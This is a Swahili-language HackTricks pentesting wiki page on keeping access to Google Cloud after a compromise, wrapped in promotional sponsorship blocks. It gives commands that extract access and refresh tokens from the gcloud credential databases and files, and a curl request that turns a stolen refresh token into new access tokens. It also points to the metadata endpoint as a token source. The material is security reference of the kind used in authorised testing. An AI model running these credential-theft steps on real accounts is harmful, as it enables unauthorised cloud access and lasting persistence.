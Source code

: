 # GCP - Kudumu bila Huduma

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Hizi ni mbinu muhimu mara moja, kwa namna fulani, umefanikiwa kudukua baadhi ya siri za GCP au mashine inayotumika kwenye mazingira ya GCP.

## Udukuzi wa Kitufe

### Vitufe vya Mtumiaji Aliyethibitishwa

Ili kupata **kitufe cha sasa** cha mtumiaji unaweza kukimbia: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Angalia ukurasa huu jinsi ya **kutumia kitambulisho hiki moja kwa moja kwa kutumia gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Ili kupata maelezo ya **kuzalisha kitambulisho cha upatikanaji kipya** endesha:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Pia niwezekana kupata vitufe vya kuboresha katika **`$HOME/.config/gcloud/application_default_credentials.json`** na katika **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Ili kupata kitufe kipya cha ufikiaji kilichoboreshwa na **kitufe cha kuboresha**, kitambulisho cha mteja, na siri ya mteja endesha:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Uhalali wa vikwazo vya kuboresha unaweza kusimamiwa katika **Admin** > **Usalama** > **Kudhibiti kikao cha Google Cloud**, na kwa chaguo-msingi imewekwa kuwa saa 16 ingawa inaweza kuwekwa isiweze kumalizika:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Mzunguko wa Uthibitisho

Mzunguko wa uthibitisho unapotumia kitu kama `gcloud auth login` utafungua dirisha la ombi kwenye kivinjari na baada ya kukubali skopes zote kivinjari kitatuma ombi kama hili kwenye bandari ya http iliyofunguliwa na zana:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Kisha, gcloud itatumia hali na nambari pamoja na `client_id` iliyoandikwa kwa nguvu (`32555940559.apps.googleusercontent.com`) na **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) kupata **data ya mwisho ya kibadilishaji cha kumbukumbu**.

{% hint style="danger" %}
Tafadhali elewa kuwa mawasiliano na localhost ni kwa HTTP, hivyo ni rahisi kuingilia data ili kupata kibadilishaji cha kumbukumbu, hata hivyo data hii ni halali mara moja tu, hivyo hii itakuwa haina maana, ni rahisi kusoma kibadilishaji cha kumbukumbu kutoka kwenye faili.
{% endhint %}

### Vipimo vya OAuth

Pata vipimo vyote vya OAuth kwa kutekeleza:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

### Akaunti za Huduma

Kama ilivyo kwa watumiaji waliothibitishwa, ukifanikiwa **kuharibu faili ya ufunguo wa kibinafsi** wa akaunti ya huduma utaweza **kuiingia kawaida kwa muda mrefu kama unavyotaka**.\
Hata hivyo, ukiteka **tokeni ya OAuth** ya akaunti ya huduma hii inaweza kuwa ya kuvutia zaidi, kwa sababu, hata kama kwa chaguo-msingi tokeni hizi ni za manufaa kwa saa moja tu, ikiwa **mwendeshaji anafuta ufunguo wa api wa kibinafsi, tokeni ya OAuth itaendelea kuwa halali hadi itakapomalizika**.

### Metadata

Kwa wazi, muda mrefu ukiwa ndani ya mashine inayofanya kazi katika mazingira ya GCP utaweza **kupata akaunti ya huduma iliyowekwa kwenye mashine hiyo kwa kuwasiliana na mwisho wa metadata** (kumbuka kuwa tokeni za OAuth unazoweza kupata kwenye mwisho huu kawaida zinazuiliwa na scopes).

### Upatanisho

Baadhi ya upatanisho kwa njia hizi zinaelezewa katika [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Marejeo

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
